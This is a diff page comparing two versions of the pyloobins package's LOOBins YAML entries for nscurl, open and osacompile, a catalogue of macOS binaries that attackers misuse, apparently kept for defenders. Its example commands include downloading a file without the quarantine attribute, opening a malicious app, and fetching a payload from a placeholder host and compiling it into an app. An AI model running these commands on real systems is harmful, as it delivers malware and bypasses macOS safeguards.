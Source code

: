 ### Comparing `pyloobins-0.1.9/LOOBins/nscurl.yml` & `pyloobins-1.0.0/LOOBins/nscurl.yml`

 * *Files 1% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 name: nscurl
 author: Leo Pitt (@_D00mfist)
-short_description: Download, upload, and read files
+short_description: Download, upload, and read files.
 full_description: macOS version of curl that is used to download files to a target without applying the quarantine extended attribute
 created: 2023-05-22
 example_use_cases:
   - name: Download file
     description: Download file and ignore cert checking 
     code: nscurl -k https://google.com -o /private/tmp/google
     tactics:
```

### Comparing `pyloobins-0.1.9/LOOBins/open.yml` & `pyloobins-1.0.0/LOOBins/open.yml`

 * *Files 9% similar despite different names*

```diff
@@ -1,11 +1,11 @@
 name: open
 author: Brendan Chamberlain (@infosecb)
 short_description: Open files, folders, apps, URLs, and header files.
-full_description: A full length description of the binary goes here.
+full_description: The open command-line utility can be used to open files, folders, app, URLs or header files in their associate macOS app.
 created: 2023-05-10
 example_use_cases:
 - name: Open a malicious file
   description: The open command can be used to open a malicious macOS app from the terminal.
   code: open Malicious.app
   tactics:
   - Execution
```

### Comparing `pyloobins-0.1.9/LOOBins/osacompile.yml` & `pyloobins-1.0.0/LOOBins/osacompile.yml`

 * *Files 11% similar despite different names*

```diff
@@ -1,15 +1,15 @@
 name: osacompile
 author: Brendan Chamberlain (@infosecB)
 short_description: Compile AppleScripts or OSA language scripts.
 full_description: osacompile is a utility used to compile scripts into executables. It's a component of Open Scripting Architecture (OSA) that Apple uses for its scripting languages, like AppleScript and JavaScript for Automation (JXA). osacompile accepts AppleScript code as input and produces a compiled script file, which can be either a script file (.scpt), an app (.app), a droplet, or a script bundle.
 created: 2023-05-14
 example_use_cases:
 - name: Download and compile a payload
-  description: A description of the use case goes here.
+  description: The following command downloads an applescript payload from getpayload.com and compiles it into an app.
   code: curl https://getpayload.com/payload_code.apple_script && osacompile -x -e payload_code.apple_script -o payload.app
```